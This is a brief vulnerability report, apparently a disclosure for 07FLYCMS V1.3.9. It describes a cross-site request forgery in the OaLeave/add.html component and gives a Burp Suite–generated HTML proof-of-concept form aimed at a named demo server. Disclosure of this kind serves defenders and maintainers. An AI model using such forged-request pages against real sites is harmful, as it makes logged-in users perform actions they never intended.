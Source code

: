 target:https://github.com/lingqifei/07fly-crm version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component http://erp.07fly.net:80/oa/OaLeave/add.html

POC:

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaLeave/add.html" method="POST">
      <input type="hidden" name="type" value="1" />
<input type="hidden" name="start_time" value="2024-10-17+21%3A06%3A00" />
<input type="hidden" name="end_time" value="" />
<input type="hidden" name="reason" value="cs" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
